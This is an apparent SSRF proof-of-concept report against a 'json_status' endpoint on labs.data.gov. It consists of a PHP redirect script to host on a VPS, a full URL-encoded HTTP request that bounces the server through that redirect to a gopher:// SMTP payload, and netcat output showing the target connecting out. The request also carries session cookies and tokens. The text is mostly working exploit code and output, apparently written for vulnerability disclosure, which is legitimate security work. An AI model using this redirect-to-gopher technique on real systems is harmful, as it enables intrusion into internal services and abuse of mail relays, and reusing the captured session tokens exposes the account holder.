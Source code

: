 
## SSRF:

1. Prepare malicious php file on VPS
**o.php
```
root@vps778339:/var/www/html# cat o.php
<?php
$s = $_GET["s"];
header("Location: ".$s);
?>
```

2. Send request to "json_status" function as below described.

POC
---

**Request to send gopher request:
```
GET /dashboard/Campaign/json_status/%68%74%74%70%3a%2f%2f%35%31%2e%31%37%38%2e%34%37%2e%31%37%36%2f%6f%2e%70%68%70%3f%73%3d%67%6f%70%68%65%72%3a%2f%2f%35%31%2e%31%37%38%2e%34%37%2e%31%37%36%3a%32%35%2f%5f%48%45%4c%4f%25%32%30%74%65%73%74%2e%6f%72%67%25%32%35%30%64%25%32%35%30%61%4d%41%49%4c%25%32%30%46%52%4f%4d%3a%25%32%30%25%32%35%30%64%25%32%35%30%61%52%43%50%54%25%32%30%54%4f%3a%6b%6f%6e%74%61%6b%74%40%64%65%65%70%73%65%63%2e%70%6c%25%32%35%30%64%25%32%35%30%61%44%41%54%41%25%32%35%30%64%25%32%35%30%61%54%65%73%74%25%32%35%30%64%25%32%35%30%61%2e HTTP/1.1
Host: labs.data.gov
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://labs.data.gov/
Origin: https://labs.data.gov
Connection: close
Cookie: citrix_ns_id=Hy43iMSeu576Lp58094fjUHkl800002; citrix_ns_id_.data.gov_%2F_wat=AAAAAAV4ytKcmI9TQbtC6F-69voRSIbVjCK07dl7qXIBbQ5EmPBKsIBouZogVupHcU2zOox8StZ7pRKbC-9vZwDFhBiC&; citrix_ns_id_.data.gov_%2F_wlf=AAAAAAU-prV_gslbEzfmUonFMegl6K4rwWmSb0AgGNdOiu_KqZxNqS7MTRJH4E2khZ1I1H_vxi62MjWDVm1NE0tFYVz1ScfnzhNtqiMZKEubTi-1PQ==&AAAAAAVVAacibcMeQaa-JKcUyH-R0itjt2o5kIUgVaclQb7SjFgL4eFSChKpRUFWw5I6mpFBaG331jUn5d3UQLI_WQvnxl7pF0SjzIKjWb9DdUnLhg==&; PHPSESSID=e8f8976b883b67ce8a7e5adad97720f5; SimpleSAMLSessionID=c58916c46288786181646876f8540efb; ci_session_dashboard=edfaf301c4e59b7738f32c01e3d3b7da962efe7c
Upgrade-Insecure-Requests: 1
DNT: 1
```

** Netcat from server:
```
root@vps778339:/var/www/html#
root@vps778339:/var/www/html#
root@vps778339:/var/www/html#
root@vps778339:/var/www/html# nc -lvp 25
Listening on [0.0.0.0] (family 0, port 25)
Connection from ec2-18-213-100-122.compute-1.amazonaws.com 21688 received!
HELO test.org%0d%0aMAIL FROM: %0d%0aRCPT TO:kontakt@deepsec.pl%0d%0aDATA%0d%0aTest%0d%0a.
root@vps778339:/var/www/html# nc -lvp 25
Listening on [0.0.0.0] (family 0, port 25)
Connection from ec2-18-213-100-122.compute-1.amazonaws.com 43055 received!
HELO test.org
MAIL FROM:
RCPT TO:kontakt@deepsec.pl
DATA
Test
.
root@vps778339:/var/www/html#
```
